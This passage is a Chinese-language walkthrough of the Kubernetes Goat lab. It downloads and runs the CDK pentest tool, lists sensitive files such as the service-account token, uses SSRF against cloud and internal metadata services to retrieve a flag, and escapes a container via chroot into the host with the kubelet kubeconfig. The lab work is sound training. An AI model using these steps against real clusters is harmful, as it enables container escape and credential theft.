 ```bash
tmpfs on /run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime,size=102400k)
```



也可以使用cdk进行一下信息收集：

```bash
wget http://192.168.0.171:39554/cdk_linux_amd64
./cdk evaluate --full

```

也可以找到：

```bash

[  Information Gathering - Sensitive Files  ]
	/docker.sock - /custom/docker/docker.sock
	/.bashrc - /etc/skel/.bashrc
	/.bash_history - /root/.bash_history
	/.bashrc - /root/.bashrc
	/serviceaccount - /run/secrets/kubernetes.io/serviceaccount
```



## 3.SSRF in the Kubernetes (K8S) world

`169.254.169.254`是动态配置的 IPv4 链路本地地址。它只在单个网段有效，并且不被路由。大多数云提供商使用此地址来为实例提供计算元数据，包括 AWS、GCP Azure、Digital Ocean 等主要提供商。

我们可以继续使用 访问默认实例元数据服务`169.254.169.254`。我们还需要确定该服务使用哪个云提供商来运行此计算，以便我们可以使用特定的标头和查询。如果这不是托管在云提供商中，那么我们可以跳过此步骤并转向内部服务查询，就像 Kubernetes 集群中的其他微服务和内部服务一样。



通过端口查找发现5000端口存在服务，指向了http://metadata-db。访问http://metadata-db下面的latest存放了很多的metadata，最终在http://metadata-db/latest/secrets/kubernetes-goat 找到了目标flag，base64解码即可。

"{\"metadata\": \"static-metadata\", \"data\": \"azhzLWdvYXQtY2E5MGVmODVkYjdhNWFlZjAxOThkMDJmYjBkZjljYWI=\"}\n"

## 4.Container escape to the host system

/host-system/目录挂在了宿主机，使用命令：

```bash
chroot /host-system/ bash
```

即可切换作为宿主机的bash（类似于）

然后利用`/var/lib/kubelet/kubeconfig`即可操作apiserver

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

